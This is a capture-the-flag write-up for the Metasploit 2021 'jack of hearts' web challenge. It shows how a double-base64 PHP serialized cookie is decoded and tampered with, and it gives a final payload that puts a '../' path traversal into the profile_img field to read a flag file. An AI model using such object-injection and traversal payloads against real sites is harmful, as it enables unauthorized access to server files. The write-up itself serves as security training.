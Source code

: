 ```yaml
---
layout: load_md
title: The White Circle | Metasploit 2021 | jack of hearts Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Metasploit 2021
parent: metasploit_2021
category: jack_of_hearts
challenge: jack of hearts
tags: "web, twh, php object injection"
date: 2021-12-08T00:00:00+00:00
last_modified_at: 2021-12-08T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Metasploit 2021</h1>
## jack of hearts

> Solved By : thewhiteh4t

```
Port : 20022
```

- User cookie is double base64 encoded, so we double decoded and ended up with the following :

```
O:4:"user":3:{
    s:8:"username";s:4:"user";
    s:5:"admin";b:0;
    s:11:"profile_img";s:23:"/var/www/html/guest.png";
}
```

```
O   -> Object
O:4 -> Object of length 4
:3: -> Object has 3 attributes
s   -> String data type
s:8 -> String of length 8
b   -> Boolean data type
b:0 -> False
```

- This was a **PHP Object Injection** challenge
- The goal of this challenge was not to become admin and if we try then the server sends hints or funny responses
- Directly accessing the flag did not work so we can simply use `../`
- Final payload :

```
O:4:"user":3:{
    s:8:"username";s:4:"user";
    s:5:"admin";b:0;
    s:11:"profile_img";s:40:"/var/www/html/../../../../../../flag.png";
}
```

![](https://i.imgur.com/JGNO34j.png)